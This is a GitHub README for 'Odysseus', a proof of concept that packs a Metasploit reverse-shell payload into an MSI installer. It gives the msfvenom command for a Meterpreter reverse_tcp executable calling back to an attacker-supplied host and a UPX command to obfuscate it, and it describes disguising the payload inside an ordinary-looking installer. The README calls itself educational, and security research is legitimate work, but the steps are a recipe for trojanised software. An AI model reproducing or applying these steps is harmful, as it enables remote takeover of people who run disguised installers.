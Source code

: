 # Odysseus
Combining Software Packaging with Metasploit Payloads: A Proof-of-Concept


## Overview
This project demonstrates the integration of Metasploit Framework payloads into standard applications using Advanced Installer. The aim is to create a proof-of-concept MSI installer that combines security testing tools with software packaging techniques.

## Objectives
- Explore advanced software packaging techniques.
- Integrate a security payload into a standard application for educational purposes.
- Showcase skills in using Metasploit Framework and Advanced Installer.

## Technologies Used
- **Metasploit Framework (MSF):** For generating and managing payloads.
- **Advanced Installer:** For packaging software into MSI installers.
- **Python:** For scripting and payload creation.
- **UPX:** For obfuscating executables.

## Steps Involved
1. **Payload Generation:**
   - Used `msfvenom` to generate a reverse shell payload.
   - Example command:
     ```bash
     msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<insert machine IP here> LPORT=<insert port here> -f exe -o payload.exe
     ```

2. **Obfuscation:**
   - Applied UPX to compress and obfuscate the executable.
   - Example command:
     ```bash
     upx --best --lzma payload.exe
     ```

3. **Packaging:**
   - Integrated the payload into an MSI installer using Advanced Installer.
   - Configured installation settings and included the payload executable.

4. **Testing:**
   - Validated the functionality in a controlled environment.

## Ethical Considerations
- **Controlled Environment:** All testing and development were conducted in a controlled environment with appropriate permissions.
- **Educational Purpose:** The project is intended for educational and research purposes. Unauthorized use or distribution of payloads is illegal and unethical.

## Repository Contents
- **`docs/`:** Documentation and ethical guidelines.
- **`scripts/`:** Python scripts and configuration files.
- **`examples/`:** Screenshots and example configurations.
- **`setup.py`:** Instructions for setting up the environment.

## Installation and Usage
1. Clone the repository:
   ```bash
   git clone https://github.com/imnopro/Odysseus
